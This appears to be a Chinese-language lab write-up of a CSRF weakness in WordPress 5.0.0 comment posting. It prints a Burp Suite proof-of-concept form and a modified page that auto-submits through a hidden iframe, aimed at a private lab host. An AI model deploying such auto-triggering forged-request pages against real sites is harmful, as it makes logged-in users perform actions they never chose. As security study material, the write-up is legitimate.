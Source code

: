 ## CSRF-wordpress5.0.0

## 环境

wordpress5.0.0（https://cn.wordpress.org/wordpress-5.0-zh_CN.tar.gz）

burpsuite

## 简介

评论存在CSRF

## 利用
找一篇文章进行评论，点击发表评论，用burpsutie拦截

![](image/1.png)

打开CSRF poc

![](image/2.png)

为了区别，把testtext改成testtest，刷新

![](image/3.png)

将html代码复制保存为wp-csrf2.html，上传到40.99

![](image/4.png)

确保admin登陆的情况下，访问http://10.10.40.99:8088/wp-csrf2.html

![](image/5.jpg)

点击表单按钮，成功csrf

![](image/6.png)

## reference

[如何通过iframe以post方式提交form表单](https://www.cnblogs.com/yangzhihang627/p/5826417.html)

## 后记

wordpress 评论有审核机制，管理员审核通过才可以显示，推测漏洞实际影响不大。

burp 自动生成的payload 还是需要点击的，比较笨重：

	<html>
	  <!-- CSRF PoC - generated by Burp Suite Professional -->
	  <body>
	  <script>history.pushState('', '', '/')</script>
	    <form action="http://10.10.40.63/wordpress/wp-comments-post.php" method="POST">
	      <input type="hidden" name="comment" value="testtest1" />
	      <input type="hidden" name="author" value="test" />
	      <input type="hidden" name="email" value="test&#64;test&#46;com" />
	      <input type="hidden" name="url" value="test" />
	      <input type="hidden" name="submit" value="å&#143;&#145;è&#161;&#168;è&#175;&#132;è&#174;º" />
	      <input type="hidden" name="comment&#95;post&#95;ID" value="1" />
	      <input type="hidden" name="comment&#95;parent" value="0" />
	      <input type="submit" value="Submit request" />
	    </form>
	  </body>
	</html>

因此改成打开网页自动触发式：

vul.html

	<html>
	 <body> 
	  <form action="http://10.10.40.63/wordpress/wp-comments-post.php" method="POST" id="speaker_form" target="form_iframe"> 
	   <input type="hidden" name="comment" value="testtest123" /> 
	   <input type="hidden" name="author" value="test" /> 
	   <input type="hidden" name="email" value="test@test.com" /> 
	   <input type="hidden" name="url" value="test" /> 
	   <input type="hidden" name="comment_post_ID" value="1" /> 
	   <input type="hidden" name="comment_parent" value="0" /> 
	  </form> 
	  
	  <iframe name="form_iframe" style="display:none;"></iframe> 
	  <script>
	  document.getElementById('speaker_form').submit();
	  </script>   
	 </body>
	</html>

增加了如下代码：

	<iframe name="form_iframe" style="display:none;"></iframe> 
	 <script>
	document.getElementById('speaker_form').submit();
	</script>   

并让form的target指向iframe，这样做的好处是利用iframe提交表单可以不刷新页面。

**注意改成这种方式，要把```<input>```里面的submit去掉，否则运行js会报错**

![](image/13.jpg)